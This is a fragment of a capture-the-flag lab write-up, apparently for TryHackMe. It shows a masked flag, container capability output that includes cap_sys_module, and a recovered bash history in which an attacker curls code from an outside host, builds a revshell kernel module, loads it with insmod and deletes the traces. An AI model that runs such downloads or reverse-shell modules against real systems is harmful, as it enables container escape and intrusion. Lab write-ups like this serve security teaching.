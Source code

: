 ```bash
root@d221f7bc7bf8:~# cat user.txt
THM{********************************}
```

<br>
<p>1.1. What is the value of user-level flag?<br>
<code>THM{********************************}</code></p>
<br>
<br>
<h2>Capabilities</h2>

```bash
root@d221f7bc7bf8:/finance-app# capsh --print
Current: cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap=ep
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Ambient set =
Current IAB: !cap_dac_read_search,!cap_linux_immutable,!cap_net_broadcast,!cap_net_admin,!cap_ipc_lock,!cap_ipc_owner,!cap_sys_rawio,!cap_sys_ptrace,!cap_sys_pacct,!cap_sys_admin,!cap_sys_boot,!cap_sys_nice,!cap_sys_resource,!cap_sys_time,!cap_sys_tty_config,!cap_lease,!cap_audit_control,!cap_mac_override,!cap_mac_admin,!cap_syslog,!cap_wake_alarm,!cap_block_suspend,!cap_audit_read,!cap_perfmon,!cap_bpf,!cap_checkpoint_restore
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
 secure-no-ambient-raise: no (unlocked)
uid=0(root) euid=0(root)
gid=0(root)
groups=0(root)
Guessed mode: UNCERTAIN (0)
```

<h2>bash_history</h2>

```bash
root@d221f7bc7bf8:~# cat .bash_history
exit
ls
exit
ls
curl 10.10.9.89:9000/hello.c > hello.c
ls
curl 10.10.9.89:9000/Makefile > Makefile
make
ls
mv hello.c revshell.c
ls
make
insmod revshell.ko
exit
ls
cd ~
;s
ls
rm Makefile 
rm Module.symvers 
rm modules.order 
rm revshell.
rm revshell.c 
rm revshell.ko 
rm revshell.mod
```